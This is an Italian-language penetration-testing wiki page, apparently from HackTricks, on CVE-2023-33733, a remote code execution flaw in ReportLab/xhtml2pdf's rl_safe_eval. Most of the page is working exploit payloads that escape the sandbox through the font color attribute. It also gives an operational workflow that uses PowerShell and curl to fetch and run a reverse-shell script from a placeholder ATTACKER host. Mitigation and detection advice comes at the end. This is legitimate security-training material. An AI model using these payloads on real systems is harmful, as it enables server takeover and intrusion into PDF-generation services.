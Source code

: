# ReportLab/xhtml2pdf [[[...]]] RCE da valutazione di espressioni (CVE-2023-33733)

{{#include ../../../banners/hacktricks-training.md}}

Questa pagina documenta un pratico sandbox escape e un primitivo RCE in rl_safe_eval di ReportLab usato da xhtml2pdf e altre pipeline di generazione PDF quando viene renderizzato HTML controllato dall'utente in PDF.

CVE-2023-33733 interessa le versioni di ReportLab fino e inclusa la 3.6.12. In certi contesti di attributo (per esempio color), i valori racchiusi tra triple parentesi [[[ ... ]]] vengono valutati server-side da rl_safe_eval. Costruendo un payload che pivota da un builtin in whitelist (pow) ai suoi globals di funzione Python, un attaccante può raggiungere il modulo os ed eseguire comandi.

Punti chiave
- Trigger: inject [[[ ... ]]] in attributi valutati come <font color="..."> all'interno del markup analizzato da ReportLab/xhtml2pdf.
- Sandbox: rl_safe_eval sostituisce molti builtins pericolosi ma le funzioni valutate espongono ancora __globals__.
- Bypass: creare una classe transiente Word per aggirare i controlli sui nomi di rl_safe_eval e accedere alla stringa "__globals__" evitando il filtraggio dei dunder bloccati.
- RCE: getattr(pow, Word("__globals__"))["os"].system("<cmd>")
- Stabilità: Restituire un valore valido per l'attributo dopo l'esecuzione (per color, usare e 'red').

Quando testare
- Applicazioni che espongono esportazione HTML-to-PDF (profili, fatture, report) e mostrano xhtml2pdf/ReportLab nei metadata del PDF o nei commenti della risposta HTTP.
- exiftool profile.pdf | egrep 'Producer|Title|Creator' → "xhtml2pdf" producer
- La risposta HTTP per un PDF spesso inizia con un commento generato da ReportLab

Come funziona il bypass della sandbox
- rl_safe_eval rimuove o sostituisce molti builtins (getattr, type, pow, ...) e applica un filtro sui nomi per negare attributi che iniziano con __ o sono in una denylist.
- Tuttavia, le funzioni "sicure" vivono in un dizionario globals accessibile come func.__globals__.
- Usare type(type(1)) per recuperare la vera funzione builtin type (bypassando il wrapper di ReportLab), quindi definire una classe Word derivata da str con comportamento di confronto mutato in modo che:
- .startswith('__') → sempre False (bypass del controllo name startswith('__'))
- .__eq__ ritorna False solo alla prima comparazione (bypass dei controlli di membership nella denylist) e True dopo (così getattr funziona)
- .__hash__ pari a hash(str(self))
- Con questo, getattr(pow, Word('__globals__')) restituisce il dict globals della funzione pow wrappata, che include il modulo os importato. Poi: ['os'].system('<cmd>').

Pattern minimo di sfruttamento (esempio in attributo)
Inserire il payload dentro un attributo valutato e assicurarsi che ritorni un valore di attributo valido tramite boolean e 'red'.

<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('ping 10.10.10.10') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
exploit
</font></para>

- La forma con list-comprehension permette un'unica espressione accettabile da rl_safe_eval.
- Il trailing and 'red' restituisce un colore CSS valido così il rendering non si rompe.
- Sostituire il comando secondo necessità; usare ping per validare l'esecuzione con tcpdump.

Workflow operativo
1) Identificare il generatore PDF
- Il PDF Producer mostra xhtml2pdf; la risposta HTTP contiene il commento di ReportLab.
2) Trovare un input riflesso nel PDF (es. bio/descrizione del profilo) e forzare un'esportazione.
3) Verificare l'esecuzione con ICMP a basso rumore
- Run: sudo tcpdump -ni <iface> icmp
- Payload: ... system('ping <your_ip>') ...
- Windows spesso invia esattamente quattro echo request di default.
4) Stabilire una shell
- Per Windows, un approccio affidabile a due fasi evita problemi di quoting/encoding:
- Stage 1 (download):

<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -c iwr http://ATTACKER/rev.ps1 -o rev.ps1') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">exploit</font></para>

- Stage 2 (esecuzione):

<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell ./rev.ps1') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">exploit</font></para>

- Per target Linux, è possibile un analogo two-stage con curl/wget:
- system('curl http://ATTACKER/s.sh -o /tmp/s; sh /tmp/s')

Note e suggerimenti
- Contesti di attributo: color è un attributo noto valutato; altri attributi nel markup di ReportLab possono anch'essi valutare espressioni. Se una posizione è sanitizzata, provare altre aree renderizzate nel flusso PDF (campi diversi, stili di tabella, ecc.).
- Quoting: mantenere i comandi compatti. I download in due fasi riducono drasticamente problemi di quoting ed escaping.
- Affidabilità: se le esportazioni sono cacheate o messe in coda, variare leggermente il payload (es. path o query random) per evitare cache.

Mitigazioni e rilevamento
- Aggiornare ReportLab alla 3.6.13 o successiva (CVE-2023-33733 risolto). Tracciare anche gli advisories di sicurezza nei pacchetti delle distro.
- Non fornire HTML/markup controllato dall'utente direttamente a xhtml2pdf/ReportLab senza una sanitizzazione rigorosa. Rimuovere/negare le costruzioni di valutazione [[[...]]] e i tag vendor-specific quando l'input non è trusted.
- Considerare la disabilitazione o l'incapsulamento completo di rl_safe_eval per input non attendibili.
- Monitorare connessioni outbound sospette durante la generazione di PDF (es. ICMP/HTTP dai server applicativi durante l'esportazione di documenti).

References
- PoC and technical analysis: [c53elyas/CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733)
- 0xdf University HTB write-up (real-world exploitation, Windows two-stage payloads): [HTB: University](https://0xdf.gitlab.io/2025/08/09/htb-university.html)
- NVD entry (affected versions): [CVE-2023-33733](https://nvd.nist.gov/vuln/detail/cve-2023-33733)
- xhtml2pdf docs (markup/page concepts): [xhtml2pdf docs](https://xhtml2pdf.readthedocs.io/en/latest/format_html.html)

{{#include ../../../banners/hacktricks-training.md}}
